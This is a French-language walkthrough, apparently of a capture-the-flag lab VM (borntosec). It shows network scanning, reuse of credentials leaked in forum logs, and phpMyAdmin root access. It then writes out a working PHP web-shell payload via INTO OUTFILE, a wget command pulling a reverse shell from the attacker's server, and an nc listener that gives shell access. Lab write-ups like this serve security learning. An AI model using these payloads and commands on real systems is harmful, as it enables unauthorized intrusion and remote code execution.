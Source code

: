 Une fois l'iso lancé, on cherche son IP sur le réseau:

`nmap -sP 192.1.1.0/24`

On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web:

`nmap -sV --script=http-enum <IP>`

On trouve les chemins suivants:

 > /forum/: Forum
 > /phpmyadmin/: phpMyAdmin
 > /webmail/src/login.php: squirrelmail version 1.4.22
 > /webmail/images/sm_logo.png: SquirrelMail

On se rend sur le forum, dans lequel on trouve un topic 'Probleme login ?' posté par lmezard.
Il contient des logs de connexions.
On remarque que le log précédent la connexion réussie de lmezard contient un username ressemblant a un mot de passe :
 
 > !q\]Ej?*5K5cy*AJ

On utiliser ces credentials pour se connecter au forum.
On accede au profil perso de lmezard dans lequel apparait son adresse mail :

> laurie@borntosec.net

On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.
Dans la boite, un mail dont l'objet est "DB Access" contient les credentials de root pour la DB :

> root/Fg-'kKXBj87E:aJ$

On se rend sur phpMyAdmin, et on utilise les credentials trouvés dans le mail.
En cliquant sur l'onglet SQL on peut effectuer une injection SQL sur le serveur.
Pour cela on a besoin de lancer la requete suivante:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

On a donc besoin de trouver un dossier sur le serveur avec droits d'écriture. Sinon la requête fail.

On utilise la commande dirb pour scanner les dossiers du serveur:

`dirb https://<IP>`

On trouve toute une liste de dossiers, listables ou non, on les teste les listables, on arrive a écrire dans 

> /forum/templates_c/

Le serveur apache utilise le chemin classique "/var/www" pour stocker ses sites.
On lance donc la requête:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exéctuer sur le serveur toute commande passée en argument dans l'URL, par exemple: 

`https://<IP>/forum/templates_c/backdoor.php?cmd=ls`

On obtient bien la liste des fichiers présents dans le dossier.

Pour faciliter la navigation dans le filesystem, on peut uploader un reverse shell sur le serveur pour s'y connecter en remote.
On récupère un reverse-shell sur le web qu'on configure pour fonctionner avec nos VM.
Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor.
Sur le serveur perso, on place php-reverse-shell à la racine du site.
Sur un browser on lance:

`https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`

Le shell est désormais sur le serveur.
On ouvre une connexion TCP sur l'hôte :
 
`nc -v -n -l -p 1234`

Puis on lance le shell sur le serveur :

`https://<IP>/forum/templates_c/php-reverse-shell.php`

La connexion s'effectue sur l'hôte, on a accès à un terminal sous le user www-data.
